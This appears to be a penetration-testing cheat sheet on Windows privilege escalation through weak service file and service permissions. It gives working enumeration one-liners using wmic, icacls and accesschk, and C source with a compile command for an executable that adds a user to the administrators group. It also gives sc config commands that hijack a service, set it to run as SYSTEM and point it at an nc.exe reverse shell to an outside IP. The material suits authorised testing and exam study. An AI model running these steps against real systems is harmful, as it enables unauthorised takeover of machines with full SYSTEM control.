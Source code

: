 #### Weak Service Permissions

NOTE: Hi-priv shell sessions that are created through weak services will die quickly, like in 20-30 sec, make sure to migrate (Meterpreter) to a new process, or start a create a new process by opening another shell with nc.exe

##### Insecure File/Folder Permissions with `wmic` and `icacls`
Use `icacls [.exe]` to check for insecure permissions such as `Everyone:(I)(F)` within service executables (within `services.msc`), and then with a non-privileged user, replace that file with a malicious file.

Automatically find weak service file permissions with the following:
```cmd
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> services.txt
for /f eol^=^"^ delims^=^" %a in (services.txt) do cmd.exe /c icacls "%a" >> permissions.txt
# look for `Everyone:(...)(F)`, `BUILTIN\Users:(...)(F)`, `NT AUTHORITY\Authenticated Users:(...)(M)`, `NT AUTHORITY\Authenticated Users:(...)(C)`, `[Computer]\[Your User]:(...)(F)` in permissions.txt. transfer it out to kali if needed, as it it'll be easier to search
```
Upload a reverse shell executable and replace the original service executable with the malicious one with `copy useradd.exe C:\the\path\to\service\binary.exe`. The next time the service is started, the malicious executable will run with SYSTEM privileges.

Tools:
* `icacls`

Alternatively, make the current low-priv user an Administrator. Prepare a malicious executable to give bob administrative rights on Kali:
```c
#include <stdlib.h>
int main() {
  int i;
  i = system("net localgroup administrators bob /add");
  return i;
}
```
Compile it to an executable using mingw32: `i686-w64-mingw32-gcc -o useradd.exe useradd.c`

Resources:
* http://travisaltman.com/windows-privilege-escalation-via-weak-service-permissions/
* https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/
* https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html

##### Insecure Service Permissions with `accesschk.exe` and `sc`
```cmd
accesschk.exe -accepteula
accesschk.exe -uwcqv "Everyone" *
accesschk.exe -uwcqv "Authenticated Users" *
accesschk.exe -uwcqv "Users" *
# find a service that returns `SERVICE_ALL_ACCESS`.
sc qc Apache # query the service to check whether it runs as system, it's binary path, etc.
sc config Apache binPath= "C:\Windows\TEMP\nc.exe 192.168.1.23 4444 -e cmd.exe" # or "net localgroup administrators bob /add"
sc config Apache obj= ".\LocalSystem" password= "" # this makes the service run as SYSTEM. do this for services that has smth other than LocalSystem in SERVICE_START_NAME
sc config Apache start= demand # this allows a service to be started. do this if a service is disabled
# restart service
```

